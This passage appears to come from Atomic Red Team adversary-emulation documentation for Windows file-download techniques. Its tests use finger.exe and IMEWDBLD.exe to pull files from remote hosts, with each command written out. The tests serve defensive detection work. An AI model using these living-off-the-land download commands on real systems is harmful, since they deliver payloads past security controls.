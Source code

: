 Simulate a file download using finger.exe. Connect to localhost by default, use custom input argument to test finger connecting to an external server.
Because this is being tested on the localhost, you should not be expecting a successful connection
https://www.exploit-db.com/exploits/48815
https://www.bleepingcomputer.com/news/security/windows-10-finger-command-can-be-abused-to-download-or-steal-files/

**Supported Platforms:** Windows

**auto_generated_guid:** 5f507e45-8411-4f99-84e7-e38530c45d01

#### Inputs:

| Name        | Description                   | Type   | Default Value |
| ----------- | ----------------------------- | ------ | ------------- |
| remote_host | Remote hostname or IP address | string | localhost     |

#### Attack Commands: Run with `command_prompt`!

```cmd
finger base64_filedata@#{remote_host}
```

<br/>
<br/>

## Atomic Test #17 - Download a file with IMEWDBLD.exe

Use IMEWDBLD.exe (built-in to windows) to download a file. This will throw an error for an invalid dictionary file.
Downloaded files can be found in "%LocalAppData%\Microsoft\Windows\INetCache\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION>" or `%LocalAppData%\Microsoft\Windows\INetCache\IE\<8_RANDOM_ALNUM_CHARS>/<FILENAME>[1].<EXTENSION>.
Run "Get-ChildItem -Path C:\Users\<USERNAME>\AppData\Local\Microsoft\Windows\INetCache\ -Include <FILENAME>\* -Recurse -Force -File -ErrorAction SilentlyContinue" without quotes and adding the correct username and file name to locate the file.

**Supported Platforms:** Windows

**auto_generated_guid:** 1a02df58-09af-4064-a765-0babe1a0d1e2

#### Inputs:

| Name       | Description                                          | Type   | Default Value                                                                                 |
| ---------- | ---------------------------------------------------- | ------ | --------------------------------------------------------------------------------------------- |
| remote_url | Location of file to be downloaded.                   | url    | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1105/T1105.yaml |
| file_name  | Name of the file to be downloaded without extension. | string | T1105                                                                                         |

#### Attack Commands: Run with `powershell`!

```powershell
$imewdbled = $env:SystemRoot + "\System32\IME\SHARED\IMEWDBLD.exe"
& $imewdbled #{remote_url}
```
